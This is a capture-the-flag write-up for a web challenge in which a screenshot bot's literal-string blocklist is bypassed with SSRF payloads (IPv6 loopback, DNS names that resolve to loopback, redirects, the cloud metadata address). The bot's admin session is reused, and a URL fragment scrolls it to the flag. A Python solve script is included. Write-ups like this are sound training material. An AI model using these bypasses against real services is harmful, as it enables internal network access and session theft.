

A site-monitoring service sends a headless browser to any URL you give it and hands back a screenshot. Two steps:

1. The internal-address blocklist matches on **literal host strings**, so `http://[::1]:3000/` walks straight past it — and the drone is browsing as **its own logged-in admin account**, not anonymously.
2. Its profile page holds the flag, but 1400px below the fold. The viewport is only 800px tall, so the capture cuts it off. The page already ships an anchor for that section, and **`#clearance`** makes the browser scroll before the screenshot fires.

## Challenge Description

> Welcome to **SiteCheck**, the SkyCity fleet's favorite web-diagnostics service since 2062!
>
> Enlist for a free inspector account and put any website through its paces: our autonomous inspection drone flies out to the address you provide, clocks how long the page takes to load, tallies how many files it pulls down, and beams back a crisp viewport snapshot — all without you lifting a finger.
>
> The drone politely refuses to inspect internal or local addresses. Safety first!

## Initial Analysis

`/register` hands out an account with no email step. The dashboard exposes one interesting control:

```html
<form action="/scan" method="post" class="scanbar">
  <input name="url" placeholder="https://example.com" required>
  <button class="btn primary" type="submit">Run SiteCheck</button>
</form>
```

A scan redirects to `/result/<uuid>`, which after a few seconds renders load time, resource count and a PNG:

```html
<div class="snapshot-label">VIEWPORT SNAPSHOT · 1280×800</div>

```

The other page worth reading is `/profile`. It has an `overview`, a `service-record`, and then this:

```html
<section id="clearance" class="dossier classified">
  <h2>Clearance Data <span class="stamp">CLASSIFIED</span></h2>
  <p>Restricted personnel token — visible only to holders of this file:</p>
  <div class="flag-plate">REDACTED · insufficient clearance</div>
</section>
<div class="spacer" style="height:1400px" aria-hidden="true"></div>
```

So the flag plate is per-viewer, redacted for a BRONZE inspector — and the page carries both a **named anchor** and a deliberate **1400px spacer**. Both of those are load-bearing.

## The Vulnerability

The blocklist rejects addresses by matching the host as written. Testing a spread of the usual candidates:

```text
  blocked   http://127.0.0.1:3000/
  blocked   http://localhost:3000/
  blocked   http://0.0.0.0:3000/
  blocked   http://2130706433:3000/          (decimal)
  blocked   http://0177.0.0.1:3000/          (octal)
  blocked   http://example.com@127.0.0.1:3000/
  ACCEPTED  http://[::1]:3000/
  ACCEPTED  http://127.0.0.1.nip.io:3000/
  ACCEPTED  http://localtest.me:3000/
  ACCEPTED  https://httpbin.org/redirect-to?url=http://127.0.0.1:3000/profile
  ACCEPTED  http://169.254.169.254/
```

It denies the string `127.0.0.1` and the string `localhost`, so it never considers the IPv6 loopback, a DNS name that resolves to loopback, or a redirect that arrives at loopback after the check has already passed. Any one of those is enough.

The bigger finding is what comes back. Screenshotting `http://[::1]:3000/profile` does not produce a login page — the capture shows a personnel file headed `Inspector: admin`, a nav chip reading `admin`, and an `OMEGA CLEARANCE` badge.

**The drone browses as `admin`, clearance `OMEGA`** — its own authenticated session, not a fresh anonymous one. So its `/profile` renders the real flag plate rather than the redacted one. The SSRF is not there to reach an internal host; it is there to borrow the bot's cookies.

## Exploitation

The remaining problem is purely geometric. The flag plate sits under `overview` and `service-record`, and the viewport is 1280×800, so the capture stops well above it — the screenshot of `/profile` shows only the header and the overview section.

The page provides its own solution in the file index:

```html
<nav class="file-index">
  <a href="#overview">overview</a>
  <a href="#service-record">service-record</a>
  <a href="#clearance">clearance</a>
</nav>
```

A fragment is not sent to the server, but the headless browser honours it locally: it loads the document, scrolls the element with `id="clearance"` into view, and only then is the screenshot taken. The 1400px spacer exists to guarantee there is room to scroll, so the section lands at the top of the frame rather than the bottom.

```text
http://[::1]:3000/profile#clearance
```



Hence "fragmented reflections in the future".

## Solve Script

```python
import urllib.request, urllib.parse, http.cookiejar, re, time, struct

B = "https://spaceship.web.2026.sunshinectf.games"
jar = http.cookiejar.MozillaCookieJar("sc.cookies")
op = urllib.request.build_opener(urllib.request.HTTPCookieProcessor(jar))

def post(path, fields, follow=True):
    d = urllib.parse.urlencode(fields).encode()
    r = urllib.request.Request(B + path, data=d)
    if follow:
        return op.open(r, timeout=30)
    class NoRedir(urllib.request.HTTPRedirectHandler):
        def redirect_request(self, *a, **k): return None
    o = urllib.request.build_opener(urllib.request.HTTPCookieProcessor(jar), NoRedir)
    try: return o.open(r, timeout=30)
    except urllib.error.HTTPError as e: return e

def login(u="kudarecon", p="Passw0rd!2062"):
    try: post("/register", {"username": u, "password": p})
    except Exception: pass
    post("/login", {"username": u, "password": p})

def scan(url, wait=25):
    r = post("/scan", {"url": url}, follow=False)
    loc = r.headers.get("location")
    if not loc: return None
    for _ in range(wait):
        b = op.open(B + loc, timeout=30).read().decode()
        if "Lost in the ether" not in b:
            return b
        time.sleep(2)

def shot(url, name):
    b = scan(url)
    m = re.search(r'src="(/screenshots/[^"]+)"', b)
    png = op.open(B + m.group(1), timeout=30).read()
    open(name, "wb").write(png)
    return name

login()
shot("http://[::1]:3000/profile#clearance", "flag.png")
```

## Flag

```text
sun{fr4gm3nt3d_r3fl3ct10ns_1n_th3_futur3}
```
